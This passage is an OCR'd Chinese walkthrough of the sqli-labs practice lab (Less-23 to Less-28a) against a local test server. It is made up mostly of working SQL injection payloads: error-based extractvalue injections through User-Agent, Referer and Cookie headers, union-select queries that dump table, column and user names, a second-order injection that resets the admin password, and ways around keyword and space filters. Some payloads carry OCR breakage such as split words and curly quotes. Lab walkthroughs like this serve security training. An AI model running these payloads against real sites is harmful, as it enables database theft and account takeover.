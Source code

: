 Ip 地址我们这里修改不是很方便，但是 useragent 修改较为方便，我们从 useragent 入手 我们利用 live http headers 进行抓包改包 将 user-agent 修改为’and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and ‘1’=’1

### 修改referer:

将 referer 修改为’and extractvalue(1,concat(0x7e,(select @@basedir),0x7e)) and ‘1’=’1

### 修改cookie

到 cookie 从 username 中获得值后，当再次刷新时，会从 cookie 中读 取 username，然后进行查询。 登录成功后，我们修改 cookie，再次刷新时，这时候 sql 语句就会被修改了。

我们修改 cookie 为 uname=admin1’and extractvalue(1,concat(0x7e,(select @@basedir),0x7e))#

### group_concat

http://127.0.0.1/sqllib/Less-23/index.php?id=-1’union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=‘security’),’3

http://127.0.0.1/sqllib/Less-23/index.php?id=-1’union select 1,(select group_concat(column_name) from information_schema.columns where table_name=‘users’),’3

http://127.0.0.1/sqllib/Less-23/index.php?id=-1’union select 1,(select group_concat(username) from security.users limit 0,1),’3

### 二次排序注入

UPDATE users SET passwd=“New_Pass” WHERE username =’ admin’ # ’ AND password=’ ， 也 就 是 执 行 了 UPDATE users SET passwd=“New_Pass” WHERE username =’ admin

### 绕过 or 和 and 过滤

（1）大小写变形 Or,OR,oR （2）编码，hex，urlencode （3）添加注释/_or_/ （4）利用符号 and=&& or=||

http://127.0.0.1/sqllib/Less-25/index.php?id=1’|| extractvalue(1,concat(0x7e,database()))–+

http://127.0.0.1/sqllib/Less-25/index.php?id=1&&1=1–+

http://127.0.0.1/sqllib/Less-25a/?id=-1%20UNION%20select%201,@@basedir,3%23

### 绕过空格的过滤

在 windows 下无法使用一些特殊的字符代替空格，此处是因为 apac 59 he 的解析的问题，这里请更换到 linux 平台下

对于空格，有较多的方法： %09 TAB 键（水平） %0a 新建一行 %0c 新的一页 %0d return 功能 %0b TAB 键（垂直） %a0 空格

http://127.0.0.1/sqllib/Less-26/?id=1’%a0||’1

http://127.0.0.1/sqllib/Less-26/?id=100%27union%0bselec t%a01,2,3||%271

http://127.0.0.1/sqllib/Less-26a/?id=100‘)union%a0select%a01,2,3||(’1

http://127.0.0.1/sqllib/Less-26a/?id=100’)union%a0select%a01,user(),(‘3

127.0.0.1/sqllib/Less-27/?id=100’unIon%a0SelEcT%a01,database(),3||’1

http://127.0.0.1/sqllib/Less-27a/?id=100“%a0UnIon%a0SElecT%a01,user(),”3

http://127.0.0.1/sqllib/Less-28a/?id=100%27)unIon%0bsElect%0b1,@@basedir,3||(%271
